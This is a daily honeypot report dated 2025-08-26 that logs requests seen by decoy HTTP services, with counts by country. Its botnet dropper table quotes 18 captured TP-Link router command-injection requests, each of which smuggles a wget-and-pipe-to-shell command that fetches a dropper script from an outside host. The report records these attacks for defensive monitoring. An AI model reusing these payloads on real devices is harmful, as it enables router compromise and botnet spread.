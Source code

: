 ```yaml
---
title: "Report: 2025-08-26 "
date: 2025-08-26
desciption: "Report: 2025-08-26" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-26 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 18 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 7 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 396 requests were recorded during the day, originating from 18 different countries, with a peak of 114 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| BR               | Germany            |
| SG               | Germany            |
| US               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------|
| 139.216.137.182 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 124.150.80.6    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 156.244.27.246  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 93.173.182.98   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 59.17.94.186    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 193.82.251.80   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 159.192.124.128 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//95.103.172.144/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 109.207.235.60  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 221.157.252.246 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//95.103.172.144/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 186.208.103.32  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//95.103.172.144/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 74.101.55.137   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 103.4.235.86    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 122.199.74.31   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 91.169.235.135  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 59.1.211.226    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 160.39.24.114   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 91.174.184.167  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
|  37 |                     1 | GET /OdinHttpCall1756191837 HTTP/1.1                          |
|  70 |                     1 | GET /Odin/http/call1756191837 HTTP/1.1                        |
|  71 |                     1 | GET /odinhttpcall1756191837 HTTP/1.1                          |
| 115 |                     1 | CONNECT 196.251.80.241:80 HTTP/1.0                            |
| 116 |                     1 | \x04\x01\x00P\xC4\xFBP\xF1\x00                                |
| 127 |                     1 | \x00\x0E8\xDF\xB9Cra\x99\x1B\x8B\x00\x00\x00\x00\x00          |
| 135 |                     1 | \x00\x0E8\xEC\x06\xAD\x88\xE8\x0F\x92\xBA\x00\x00\x00\x00\x00 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   114 | US                 |
|  1 |                    64 | GB                 |
|  2 |                    53 | DE                 |
|  3 |                    47 | HK                 |
|  4 |                    21 | SC                 |
|  5 |                    13 | BG                 |
|  6 |                    11 | KR                 |
|  7 |                    11 | CN                 |
|  8 |                     6 | AU                 |
|  9 |                     6 | HU                 |
| 10 |                     5 | NL                 |
| 11 |                     5 | FR                 |
| 12 |                     5 | CA                 |
| 13 |                     4 | BR                 |
| 14 |                     4 | ZA                 |
| 15 |                     3 | JP                 |
| 16 |                     3 | TH                 |
| 17 |                     3 | SG                 |
| 18 |                     2 | IN                 |
| 19 |                     2 | PL                 |
| 20 |                     2 | ES                 |
| 21 |                     2 | RO                 |
| 22 |                     2 | IL                 |
| 23 |                     2 | RU                 |
| 24 |                     1 | AR                 |
| 25 |                     1 | BE                 |
| 26 |                     1 | BD                 |
| 27 |                     1 | MC                 |
| 28 |                     1 | CO                 |
| 29 |                     1 | IR                 |
